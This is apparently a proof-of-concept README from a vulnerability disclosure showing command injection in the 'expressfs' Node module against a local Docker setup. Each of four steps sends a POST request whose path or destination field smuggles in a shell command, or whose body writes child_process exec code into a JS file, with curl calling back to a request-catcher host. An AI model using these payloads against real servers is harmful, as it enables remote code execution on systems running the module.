# Command Injection @ expressfs
- module : expressfs
- version : All
- severity: high

# Installation

`docker-compose up --build`

# Lunch Attack On 'expressfs.cp'

1. open the browser and enter the following url
    `https://shieldfy.requestcatcher.com/`

      NOTE: we will use the previous 'requestcatcher' to catch the request that we will launch from the next step as command injection attack

2. launch this `POST` request from postman http://localhost:8000/expressfs.cp
    
    BODY:
      | KEY | VALUE |
      | --- | --- |
      | destination | /tmp/test;curl https://shieldfy.requestcatcher.com/hacked-expressfs.cp |

3. CHECK the requestcatcher tab in the browser you will see the result of command injection attack


# Lunch Attack On 'expressfs.rmdir'

1. open the browser and enter the following url
    `https://shieldfy.requestcatcher.com/`

      NOTE: we will use the previous 'requestcatcher' to catch the request that we will launch from the next step as command injection attack

2. launch this `POST` request from postman http://localhost:8000/expressfs.rmdir
    
    BODY:
      | KEY | VALUE |
      | --- | --- |
      | path | /tmp/test;curl https://shieldfy.requestcatcher.com/hacked-expressfs.rmdir |

3. CHECK the requestcatcher tab in the browser you will see the result of command injection attack


# Lunch Attack On 'expressfs.create'

1. open the browser and enter the following url
    `https://shieldfy.requestcatcher.com/`

      NOTE: we will use the previous 'requestcatcher' to catch the request that we will launch from the next step as command injection attack

2. launch this `POST` request from postman http://localhost:8000/expressfs.create
    
    BODY:
      | KEY | VALUE |
      | --- | --- |
      | path | ./eviil.js |
      | content | exec = require('child_process').exec;exec("curl https://shieldfy.requestcatcher.com/hacked-expressfs.create") |

3. CHECK the requestcatcher tab in the browser you will see the result of command injection attack


# Lunch Attack On 'expressfs.appendFile'

1. open the browser and enter the following url
    `https://shieldfy.requestcatcher.com/`

      NOTE: we will use the previous 'requestcatcher' to catch the request that we will launch from the next step as command injection attack

2. launch this `POST` request from postman http://localhost:8000/expressfs.appendFile
    
    BODY:
      | KEY | VALUE |
      | --- | --- |
      | path | ./eviil.js |
      | content | ; exec = require('child_process').exec;exec("curl https://shieldfy.requestcatcher.com/hacked-expressfs.appendFile") |

3. CHECK the requestcatcher tab in the browser you will see the result of command injection attack
    

